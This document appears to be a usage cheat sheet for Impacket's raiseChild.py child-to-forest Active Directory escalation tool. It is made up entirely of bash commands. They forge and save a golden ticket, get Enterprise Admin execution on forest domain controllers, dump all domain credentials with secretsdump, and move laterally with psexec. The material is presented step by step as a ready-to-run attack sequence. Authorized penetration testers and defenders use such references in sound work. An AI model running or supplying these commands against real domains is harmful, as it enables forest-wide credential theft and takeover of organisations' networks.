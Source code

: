 ### Golden Ticket Generation and Storage
```bash
# Generate and save golden ticket for later use
python3 raiseChild.py -w forest_admin.ccache child.domain.local/admin:password

# Use saved ticket for forest access
export KRB5CCNAME=forest_admin.ccache
python3 secretsdump.py -k -no-pass forest.local/admin@forestdc.forest.local
```

### Remote Execution with Enterprise Admin
```bash
# Escalate and execute commands on forest resources
python3 raiseChild.py -target-exec forestdc.forest.local child.domain.local/admin:password

# Target specific host in forest
python3 raiseChild.py -target-exec server.forest.local child.domain.local/admin:password

# Execute with specific user RID (custom Enterprise Admin)
python3 raiseChild.py -target-exec forestdc.forest.local -targetRID 1101 child.domain.local/admin:password
```

### Advanced Usage Examples
```bash
# Full attack with ticket saving and remote execution
python3 raiseChild.py -w ea_ticket.ccache -target-exec forestdc.forest.local child.domain.local/admin:password

# Debug mode for troubleshooting
python3 raiseChild.py -debug child.domain.local/admin:password

# With timestamps for logging
python3 raiseChild.py -ts -target-exec forestdc.forest.local child.domain.local/admin:password

# Using AES key for authentication
python3 raiseChild.py -aesKey aes256key child.domain.local/admin -target-exec forestdc.forest.local
```

### Multi-Step Usage Pattern
```bash
# Step 1: Generate golden ticket
python3 raiseChild.py -w enterprise_admin.ccache child.domain.local/admin:password

# Step 2: Use ticket for forest-wide credential extraction
export KRB5CCNAME=enterprise_admin.ccache
python3 secretsdump.py -k -no-pass forest.local/admin@forestdc.forest.local -just-dc

# Step 3: Access other forest resources
python3 psexec.py -k -no-pass forest.local/admin@server1.forest.local
python3 psexec.py -k -no-pass forest.local/admin@server2.forest.local
```
